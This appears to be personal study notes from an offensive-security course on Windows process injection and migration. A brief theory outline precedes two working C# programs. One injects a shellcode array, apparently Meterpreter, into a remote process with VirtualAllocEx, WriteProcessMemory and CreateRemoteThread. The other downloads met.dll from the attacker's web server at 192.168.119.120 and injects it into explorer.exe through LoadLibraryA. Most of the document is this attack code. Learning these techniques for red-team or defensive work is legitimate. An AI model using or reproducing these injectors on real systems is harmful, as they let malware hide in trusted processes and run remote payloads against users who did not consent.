

05- process injection and migration (THEORY)
Intro
- • • goal: stabilize shell
- process= container with its own virtual memory
- a thread execute assembly code of the app
- each thread with its own stack and share virtual memory of the process
- all processes have integrity level that blocks one process from access another with higher integrity level
- that's why we need processexplorer as admin
- every process has its DACL

- • • Target processes
- process.exe (always live and high integrity)
Process Injection in C#
- method
- openProcess
- VirtualAllocEx : allocate memory in any other space
- we need PID of process.exe
using System;
using System.Runtime.InteropServices;
namespace Inject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);
static void Main(string[] args)
{
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
byte[] buf = new byte[591] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
....
0x0a,0x41,0x89,0xda,0xff,0xd5 };
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,
IntPtr.Zero, 0, IntPtr.Zero);
}
}
}
DLL injection
- • • process injection allowed us to inject arbitrary shellcode into a remote process
- but for a longer code bases we might want to inject a whole dll instead of shellcode
- process calls LoadLibrary when usage of API in dlls
- it doesn't work on remote processes
Classical DLL injection steps
- To implement the DLL injection technique, we are going to create a new C# .NET Standard Console app that will fetch our DLL from the attacker’s web server. We’ll then write the DLL to disk since LoadLibrary only accepts files present on disk
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject
{
class Program
{
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
processId);
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
public static extern IntPtr GetModuleHandle(string lpModuleName);
Co
x
static void Main(string[] args)
{
String dir =
Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";
WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr,
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
"LoadLibraryA");
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
addr, 0, IntPtr.Zero);
}
}
}
- when we execute app it calls malicious dll that will execute shellcode